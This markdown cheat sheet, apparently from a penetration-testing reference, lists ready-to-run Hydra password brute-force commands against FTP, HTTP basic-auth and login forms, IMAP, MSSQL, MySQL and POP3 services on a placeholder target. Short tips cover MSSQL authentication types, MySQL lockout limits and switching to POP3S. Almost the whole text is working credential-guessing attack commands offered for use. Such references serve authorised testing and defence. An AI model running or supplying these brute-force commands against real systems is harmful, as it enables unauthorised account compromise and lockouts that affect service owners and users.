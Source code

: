 ### FTP
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 ftp
```

### HTTP Basic Auth
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 http-get /login.php
```

### HTTP GET
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 http-get-form '/login.php:username=^USER^&password=^PASS^:Incorrect username or password'
```

### HTTP POST
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 http-post-form '/login.php:username=^USER^&password=^PASS^:Incorrect username or password'
```

### IMAP
```
hydra -l '<email>' -P '<passwords.txt>' 10.10.10.10 imap
```

### MSSQL (SQL Server Authentication)
MSSQL supports two main types of authentication: **SQL Server authentication** and **Windows authentication**. <br>
In SQL Server authentication, the username and password are defined in SQL Server and stored in the sys.sql_logins table. For instance, this is the case for the System Administrator (sa) user. <br>
In Windows authentication, the credentials are stored in the SAM or NTDS.dit database. <br>
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 mssql
```
>  Hydra (<b>version <= 9.4</b>) does not support MSSQL Windows authentication. To use that authentication, you can use alternative tools such as [Patator](#mssql-sql-server-authentication-2) or [NetExec](#mssql-sql-server-authentication-3).

### MySQL
```
hydra -t 4 -l '<user>' -P '<passwords.txt>' 10.10.10.10 mysql
```
>  By default, the lockout threshold for MySQL is set to **100** (`max_connect_errors = 100`). Exceeding this limit will automatically lock your IP address, and it will require intervention from the database administrator to unlock it.

### POP3
```
hydra -l '<email>' -P '<passwords.txt>' 10.10.10.10 pop3
```
>  If you encounter the error: `"Plaintext authentication disallowed on non-secure (SSL/TLS) connections"`, it means the POP3 server does not allow plaintext authentication. In that case, switch to POP3S by replacing **pop3** with **pop3s** in the command above.
